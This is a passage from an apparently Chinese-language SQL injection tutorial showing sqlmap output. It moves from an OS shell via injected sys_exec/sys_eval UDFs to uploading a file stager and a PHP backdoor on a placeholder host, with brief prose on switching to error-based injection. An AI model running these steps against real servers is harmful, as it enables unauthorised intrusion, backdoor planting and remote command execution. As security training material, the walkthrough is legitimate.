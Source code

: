 ```bash
[18:02:37] [INFO] the local file '/tmp/sqlmapmswx18kp12261/lib_mysqludf_sys8kj7u1jp.so' and the remote file './libslpjs.so' have the same size (8040 B)
[18:02:37] [INFO] creating UDF 'sys_exec' from the binary UDF file
[18:02:38] [INFO] creating UDF 'sys_eval' from the binary UDF file
[18:02:39] [INFO] going to use injected user-defined functions 'sys_eval' and 'sys_exec' for operating system command execution
[18:02:39] [INFO] calling Linux OS shell. To quit type 'x' or 'q' and press ENTER

os-shell> ls -la
do you want to retrieve the command standard output? [Y/n/a] a

[18:02:45] [WARNING] something went wrong with full UNION technique (could be because of limitation on retrieved number of entries). Falling back to partial UNION technique
No output
```

我们看到 SQLMap 默认使用了 `UNION` 技术来获取 OS shell，但未能给我们任何输出 `No output`。因此，由于我们已经知道存在多种类型的 SQL 注入漏洞，让我们尝试指定另一种更有可能给我们直接输出的技术，比如基于错误的 SQL 注入 (Error-based SQL Injection)，我们可以用 `--technique=E` 来指定：

```bash
sqlmap -u "http://www.example.com/?id=1" --os-shell --technique=E
        ___
       __H__ ___ ___[,]_____ ___ ___  {1.4.11#stable}
|_ -| . [,]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[*] starting @ 18:05:59 /2020-11-19/

[18:05:59] [INFO] resuming back-end DBMS 'mysql'
[18:05:59] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
...SNIP...
which web application language does the web server support?
[1] ASP
[2] ASPX
[3] JSP
[4] PHP (default)
> 4

do you want sqlmap to further try to provoke the full path disclosure? [Y/n] y

[18:06:07] [WARNING] unable to automatically retrieve the web server document root
what do you want to use for writable directory?
[1] common location(s) ('/var/www/, /var/www/html, /var/www/htdocs, /usr/local/apache2/htdocs, /usr/local/www/data, /var/apache2/htdocs, /var/www/nginx-default, /srv/www/htdocs') (default)
[2] custom location(s)
[3] custom directory list file
[4] brute force search
> 1

[18:06:09] [WARNING] unable to automatically parse any web server path
[18:06:09] [INFO] trying to upload the file stager on '/var/www/' via LIMIT 'LINES TERMINATED BY' method
[18:06:09] [WARNING] potential permission problems detected ('Permission denied')
[18:06:10] [WARNING] unable to upload the file stager on '/var/www/'
[18:06:10] [INFO] trying to upload the file stager on '/var/www/html/' via LIMIT 'LINES TERMINATED BY' method
[18:06:11] [INFO] the file stager has been successfully uploaded on '/var/www/html/' - http://www.example.com/tmpumgzr.php
[18:06:11] [INFO] the backdoor has been successfully uploaded on '/var/www/html/' - http://www.example.com/tmpbznbe.php
[18:06:11] [INFO] calling OS shell. To quit type 'x' or 'q' and press ENTER

```